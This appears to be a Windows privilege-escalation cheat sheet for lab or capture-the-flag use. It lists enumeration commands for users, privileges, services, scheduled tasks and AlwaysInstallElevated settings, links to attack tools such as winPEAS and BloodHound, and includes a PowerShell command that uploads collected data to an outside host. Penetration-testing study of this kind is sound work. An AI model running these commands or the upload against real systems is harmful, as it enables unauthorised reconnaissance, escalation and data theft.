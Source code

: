 # Windows PrivEsc 

**Step 1** Review PrivEsc Mind map
https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** Look around the file system!!! 

## Active Directory Methodology 
https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Active%20Directory%20(AD)/index.html

## Basics 

(Manual Enum Guide)[https://fuzzysecurity.com/tutorials/16.html]

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
(Watson for kernel exploit suggestions)[https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html]
(winPEAS)[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS]
(adPEAS)[https://github.com/61106960/adPEAS]
(Bloodhound)[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux]
(Powerview)[https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview]
(Windows exploit suggester)[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]
(Sherlock)[https://github.com/rasta-mouse/Sherlock](How to use Sherlock)[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html]
(JAWS)[https://github.com/411Hall/JAWS]
